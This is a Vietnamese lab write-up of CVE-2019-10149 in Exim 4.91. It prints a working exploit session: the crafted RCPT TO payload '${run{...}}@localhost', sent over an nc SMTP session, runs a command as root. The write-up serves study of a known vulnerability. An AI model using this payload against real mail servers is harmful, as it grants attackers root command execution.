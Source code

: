 ```yaml
---
date: 2019-06-14
title: CVE_2019-10149
categories:
  - CVE_2019-10149
description: CVE-2019-10149 Critical Remote Command Execution In Exim
author: minhnv
tags: [CVE_2019-10149]
type: Document
---
```


# CVE-2019-10149: Critical Remote Command Execution In Exim

CVE-2019-10149 là một lỗ hổng thực thi lệnh từ xa được giới thiệu trong phiên bản Exim 4.87 - được phát hành vào ngày 6 tháng 4 năm 2016. Trong cấu hình mặc định, kẻ tấn công cục bộ có khả năng khai thác lỗ hổng này để thực thi các lệnh như người dùng root ngay bằng cách gửi thư đến một địa chỉ thư được tạo thủ công đặc biệt trên localhost.

<div style="text-align:center"><img src="https://i.imgur.com/dET1LTn.png"></div>


## Môi trường LAB 

`Exim version 4.91`

## Thực hiện 

- Mục tiêu tạo ra file `/tmp/id` chứa thông tin id user 

- Ban đầu kiểm tra xem có tồn tại file /tmp/id

```
[root@testexim ~]# cat /tmp/id 
cat: /tmp/id: No such file or directory
[root@testexim ~]# 
```

- Trên user `minhkma` thực hiện 

```
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}
```

```
[minhkma@testexim ~]$ nc 127.0.0.1 25
220-cpanel.localhost.localdomain ESMTP Exim 4.91 #1 Fri, 14 Jun 2019 16:50:25 +0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
HELO localhost
250 cpanel.localhost.localdomain Hello localhost [127.0.0.1]
MAIL FROM:<>
250 OK
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}@localhost>    
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
250 OK id=1hbirS-0000mL-ER
QUIT
221 cpanel.localhost.localdomain closing connection


Ncat: Broken pipe.
```

- Sau đó quay lại kiểm tra 

```
[root@testexim ~]# cat /tmp/id 
uid=0(root) gid=12(mail) groups=12(mail)
uid=0(root) gid=12(mail) groups=12(mail)
```

- Tài liệu tham khảo 

    + https://www.exploit-db.com/exploits/46974
    + https://www.zdnet.com/article/exim-email-servers-are-now-under-attack/
    + https://www.openwall.com/lists/oss-security/2019/06/06/1